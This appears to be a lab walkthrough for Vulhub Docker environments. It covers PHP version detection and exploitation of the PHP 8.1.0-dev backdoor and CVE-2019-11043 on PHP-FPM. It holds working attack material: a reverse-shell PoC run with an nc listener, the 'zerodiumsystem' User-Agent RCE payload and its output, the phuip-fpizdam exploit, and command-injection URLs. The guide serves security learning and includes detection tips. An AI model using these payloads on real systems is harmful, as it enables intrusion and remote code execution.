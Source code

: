 # 🛡️ **PHP Version Detection and Vulnerabilities**

This guide walks through setting up two PHP-based vulnerable environments using Vulhub, perfect for learning real-world PHP exploitation.

🔗 **Knife - HTB:** [HackTheBox Machine - Knife](https://www.hackthebox.com/machines/knife)

---

## 🔍 **PHP Version Detection**

**Detect the PHP version running on a target server:**

```bash
curl -I http://<target-ip>:<port>/
curl -I http://10.10.10.242:80/
```

📄 **Example Response:**
```bash
HTTP/1.1 200 OK
Date: Fri, 18 Apr 2025 11:01:11 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

**Or use Nmap's `http-php-version` script:**

```bash
nmap -p <port> --script=http-php-version <target-ip>
nmap -v -sT -sV -A -O --script=http-php-version.nse -p 80 10.10.10.242
```

---

## 💀 **PHP 8.1.0-dev Backdoor Exploitation**

🔗 **Reference:** [PHP 8.1.0-dev Backdoor RCE GitHub](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/README.md)

---

### 🐳 **Docker Installation**

**Update and install Docker:**

```bash
apt update
apt install docker docker-compose -y
```

**Or install using official script:**

```bash
curl -sSL https://get.docker.com/ | sh
```

**Manage Docker service:**

```bash
systemctl restart docker
systemctl enable docker
systemctl status docker
```

---

### 🏠 **Clone Vulhub and Build Vulnerable Container**

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/php/8.1-backdoor/
docker-compose build
docker-compose up -d
```

---

## 🖥️ **Port and Service Checks**

**Check if Docker or vulnerable environment is up:**

```bash
netstat -nltup | grep 5000
netstat -nltup | grep docker
```

---

## 🔎 **Nmap Scanning for PHP Detection**

**Basic detection and version scan:**

```bash
nmap -v -p 8080 -sT -sC -sV -A -O 192.168.1.23
```

**PHP version detection:**

```bash
nmap -v -p 8080 -sT -sV -A -O --script=http-php-version.nse 192.168.1.23
```

---

## 📚 **Exploitation Resources**

- 📄 [Exploit-DB Link](https://www.exploit-db.com/exploits/49933)
- 📄 [PoC GitHub Repo](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

---

## 🎯 **Reverse Shell Exploitation**

### **Download the PoC:**

```bash
wget https://raw.githubusercontent.com/flast101/php-8.1.0-dev-backdoor-rce/main/revshell_php_8.1.0-dev.py
```

### **View Usage:**

```bash
python3 revshell_php_8.1.0-dev.py -h
```

### **Run the Exploit:**

**Start a listener:**

```bash
nc -lvnp 443
```

**Execute the script:**

```bash
python3 revshell_php_8.1.0-dev.py http://192.168.1.23:8080/ 192.168.1.7 443
```

---

## 🚨 **Malicious Request Example**

```bash
GET / HTTP/1.1
Host: 192.168.1.28:8080
User-Agent: zerodiumsystem('uname -a');
Accept: */*
Connection: keep-alive
```

---

## 📈 **Observed Response**

```bash
HTTP/1.1 200 OK
X-Powered-By: PHP/8.1.0-dev
Linux 1249b721bf95 6.1.0-32-amd64 Debian 6.1.129-1 x86_64 GNU/Linux
hello world
```

---

## 🔬 **Analysis**

- The backdoored PHP interprets any header starting with **User-Agent** as PHP code.
- Payload `zerodiumsystem('uname -a');` executes shell commands.
- Successful response confirms **Remote Code Execution (RCE)**.

---

## 🛡️ **Recommendations for Detection**

- Monitor suspicious headers like **User-Agentt**, **X-Cmd**, etc.
- Watch for PHP versions like **PHP/8.1.0-dev** in `X-Powered-By`.
- Use **tcpdump**, **Wireshark**, or **Suricata** for traffic monitoring.

---

## 🧹 **Cleanup**

```bash
docker-compose down -v
```

---

# ⚠️ **CVE-2019-11043 - PHP-FPM Remote Code Execution**

🔗 **Reference:** [Vulhub - CVE-2019-11043](https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043)

---

## 🛠️ **Environment Setup**

```bash
cd vulhub/php/CVE-2019-11043/
docker-compose build
docker-compose up -d
netstat -nltup | grep 8080
```

---

### 📋 **Create PHP Info Page**

```bash
vim www/phpinfo.php
```

Add inside the file:

```php
<?php
phpinfo();
?>
```

---

## 🔧 **Exploitation Tool - Phuip-Fpizdam**

### **Install Using Go:**

```bash
go install github.com/neex/phuip-fpizdam@latest
```

**Run the tool:**

```bash
/root/go/bin/phuip-fpizdam "http://192.168.1.220:8080/index.php"
```

### **Manual Install:**

```bash
git clone https://github.com/neex/phuip-fpizdam.git
cd phuip-fpizdam
go install .
/root/go/bin/phuip-fpizdam "http://192.168.1.23:8080/index.php"
```

---

## 🌐 **Command Injection Example URLs**

Test by visiting:

- `http://192.168.1.23:8090/index.php?a=id`
- `http://192.168.1.23:8080/index.php?a=ls`

---

## 📝 **Important Notes**

- Ensure firewall rules allow incoming connections.
- Always run vulnerable labs in an isolated virtual environment.
- For CVE-2019-11043, adjust payload padding if exploitation fails.

---

